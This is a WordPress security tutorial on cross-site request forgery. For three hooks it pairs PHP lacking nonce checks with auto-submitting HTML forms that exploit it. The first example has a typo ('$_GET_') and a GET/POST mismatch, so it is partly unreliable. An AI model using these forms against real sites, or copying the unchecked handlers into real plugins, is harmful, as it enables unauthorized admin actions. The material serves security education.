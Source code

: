 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```



## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against CSRF"
  href="/wordpress/securing-code/cross-site-request-forgery/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```